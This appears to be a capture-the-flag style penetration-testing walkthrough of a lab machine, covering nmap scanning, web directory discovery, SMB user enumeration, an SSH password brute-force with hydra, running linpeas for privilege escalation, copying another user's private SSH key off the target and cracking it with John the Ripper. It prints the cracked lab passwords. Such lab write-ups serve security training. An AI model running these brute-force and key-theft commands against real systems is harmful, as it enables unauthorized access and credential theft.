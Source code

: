 # Basic Penetration Testing Box
--------------------------------------------------------------------

**TOOLS USED**: nmap, dirbuster, enum4linux, hydra, linpeas, John the Ripper

**nmap**: network exploration tool and security / port scanner<br>

```
nmap [Scan Type...] [Options] {target specification}
```

Scan Types:<br>
-Ss [DEFAULT] TCP SYN Scan (Doesn't open full TCP connection)<br>
-St TCP Scan (Opens full TCP connection)<br>
-Su UDP Scan<br>

To find all devices connected to a network:

```
nmap -sL x.x.x.x/24
```

**dirbuster**: web content scanner

```
dirb <url_base> <url_base> [<wordlist_file(s)>] [options]
```

**enum4linux**: tool for enumerating information from Windows and Samba systems

**hydra**: network logon cracker

```
hydra
       [[[-l LOGIN|-L FILE] [-p PASS|-P FILE|-x OPT -y]] | [-C FILE]]
       [-e nsr] [-u] [-f|-F] [-M FILE] [-o FILE] [-b FORMAT]
       [-t TASKS] [-T TASKS] [-w TIME] [-W TIME] [-m OPTIONS] [-s PORT]
       [-c TIME] [-S] [-O] [-4|6] [-I] [-vV] [-d]
       server service [OPTIONS]
```

**linpeas**: script that searches for possible paths to escalate privileges on Linux/Unix*/MacOS hosts

**john**: tool to crack weak passwords

```
john [options] password-files
```

--------------------------------------------------------------------
## GIVEN INFO


**IP Address**: 10.10.19.208

--------------------------------------------------------------------
## PROCEDURE



### 1. FIND EXPOSED SERVICES


**TOOLS**: nmap

```
nmap -sC -sV -oN nmap.txt 10.10.19.208
```
-sC: script scan with default scripts<br>
-sV: probe open ports to determine service/version info<br>
-oN: output scan in normal to given filename<br>


![nmap](./imgs/nmap.png)


**EXPOSED PORT (SERVICE)**:<br>
  22 (ssh),<br>
  80 (http),<br>
  139 (smbd),<br>
  445 (smbd),<br>
  8009 (ajp13),<br>
  8080 (http)<br>

----------------------------------
## 2. FIND HIDDEN DIR ON WEB SERVER


**TOOLS**: dirbuster

```
dirb http://10.10.19.208
```

![dirb](./imgs/dirb.png)

**HIDDEN DIR**: /development

----------------------------------
## 3. GET USERNAME & PASSWORD


**TOOLS**: enum4linux, hydra

**NOTE**: J has a weak password

```
enum4linux -a 10.10.19.208 | tee enum4linux.log
```

-a: do all simple enumerations

![enum4linux](./imgs/enum4linux.png)

**USERS**: jan, kay

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt.gz ssh://10.10.19.208
```

-l: login name<br>
-P: password file to iterate through

![hydra](./imgs/hydra.png)

**PASSWORD**: armando

----------------------------------
## 4. FIND PRIVILEGE ESCALATION VECTORS


**TOOLS**: linpeas, John the Ripper

Host Machine
```
  wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
  scp linpeas.sh jan@10.10.19.208:/dev/shm
```

Target Machine
```
cd /dev/shm
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.txt
```

Host Machine
```
scp jan@10.10.19.208:/dev/shm/linpeas.txt linpeas.txt
scp jan@10.10.19.208:/home/kay/.ssh/id_rsa kay_id_rsa
```

![linpeas](./imgs/linpeas.png)

```
ssh2john kay_id_rsa > 4john.txt
john 4john.txt
```

![john](./imgs/john.png)

**PASSWORD**: beeswax

----------------------------------
## 5. FINAL PASSWORD



```
ssh -i kay_id_rsa kay@10.10.19.208
cat pass.bak
```

**PASSWORD**: heresareallystrongpasswordthatfollowsthepasswordpolicy$$
